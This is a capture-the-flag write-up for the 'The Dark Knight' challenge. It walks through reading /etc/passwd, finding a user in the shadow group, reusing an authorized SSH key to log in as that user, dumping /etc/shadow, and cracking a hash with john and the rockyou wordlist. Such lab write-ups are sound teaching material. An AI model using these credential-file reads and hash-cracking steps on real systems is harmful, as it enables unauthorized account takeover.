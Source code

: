# The Dark Knight

By [Siorde](https://github.com/Siorde)

## Description  
The Batman is lurking in the shadows, ready to take down the next criminal.
Usually we don't mind, but he has some critical intel he won't share about the
Joker : his password on the network. Gordon, find who he is and get the intel.
We know it's one of the users of this network.

Good luck.

## Solution  
Once i logged on the serveur, i tried to cat /etc/shadow and /etc/passwd. The
acces was denied for the /etc/shadow but i got the /etc/passwd  
```  
gordon@5653f407bf8b:~$ cat /etc/passwd  
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin  
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin  
systemd-network:x:101:102:systemd Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin  
systemd-resolve:x:102:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin  
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin  
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin  
gordon:x:1000:1000:,,,:/home/gordon:/bin/bash  
joker:x:1001:1001:,,,:/home/joker:/bin/bash  
bradley_warner:x:1002:42:,,,:/home/bradley_warner:/bin/bash  
black_williams:x:1003:1003:,,,:/home/black_williams:/bin/bash  
brett_willis:x:1004:1004:,,,:/home/brett_willis:/bin/bash  
bonnie_winter:x:1005:1005:,,,:/home/bonnie_winter:/bin/bash  
```  
I noticed that bradley_warner was is in the group 42 instead of 1002. So i
looked at what group it was :  
```  
gordon@5653f407bf8b:~$ groups bradley_warner  
bradley_warner : shadow  
```  
It match what was written in the description of the challenge and with a "ls
-al /etc", we can see that this group can cat /etc/shadow.  
  
I cat the only file in the home of bradley_warner :  
```  
gordon@5653f407bf8b:~$ cat /home/bradley_warner/.ssh/authorized_keys  
ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABAQDledZGWxygUWUe1jv1R7J18KKvMVVXKEG0wmZi53FFdWRanbgLSIEOL8LlfgG8gGCgljo/X/ezZIFEeBGl4ioJeWZbHghgwdW3W24bgeGLf+C2fyLviY+yNXTLCx9tBFtrksB7MBaKFD1CGCRjqdWQ3qOvSOXpQr0JVF/1R52oX3xQcABghD0UbOLq+31KsMpWw5fmW0Nd5a60UUQWKyju+ZvsCvnaPrxs+DvABpoMAriNOGG4x/5zZGLNb+dvKrv+6QjHee+lXeHMoCPVWf8q8rhy8zYfSR4ZXsHsKEhfSgZ10QrfSgoWCdM2P1PUBvbXDIvrFzKbymKG7CwFOPQn
gordon@5ff44b32ff8a  
```  
So apparently gordon can do a ssh for the user bradley_warner :  
```  
ssh bradley_warner@localhost  
```  
Now we can see the /etc/shadow :  
```  
bradley_warner@5653f407bf8b:~$ tail /etc/shadow  
systemd-network:*:18742:0:99999:7:::  
systemd-resolve:*:18742:0:99999:7:::  
messagebus:*:18742:0:99999:7:::  
sshd:*:18742:0:99999:7:::  
gordon:$6$EWpyf71C$Flz7gbn/SiQhZwAgRIqoXOG56PT2lK0aXjvM0ubY/52VBdESWS6iv0R6ZdcCWTZ/nSIBIMpXybqfyq5BGjLNr0:18742:0:99999:7:::  
joker:$6$R7sLJXQ9$wtS/caquqtt3l3ElAbyBILd4ylOCIOHXTJBC.o9qu48p0mXaTorvd0pD.H.i3buECHGzHbBT3XFEtGg8EoX650:18742:0:99999:7:::  
bradley_warner:*:18742:0:99999:7:::  
black_williams:*:18742:0:99999:7:::  
brett_willis:*:18742:0:99999:7:::  
bonnie_winter:*:18742:0:99999:7:::  
```  
We only need to brutforce the jocker password :  
```  
$ echo
"joker:$6$R7sLJXQ9$wtS/caquqtt3l3ElAbyBILd4ylOCIOHXTJBC.o9qu48p0mXaTorvd0pD.H.i3buECHGzHbBT3XFEtGg8EoX650:1001:1001:,,,:/home/joker:/bin/bash"
> unshadowed.txt  
$ john -wordlist=./rockyou.txt unshadowed.txt  
Loaded 1 password hash (crypt, generic crypt(3) [?/64])  
Press 'q' or Ctrl-C to abort, almost any other key for status  
ilovebatman      (joker)  
```  
So the flag is Hero{ilovebatman} !  

Original writeup (https://github.com/Nameshield-
CTF/WriteUps/tree/master/heroctf/system/the-dark-knight).
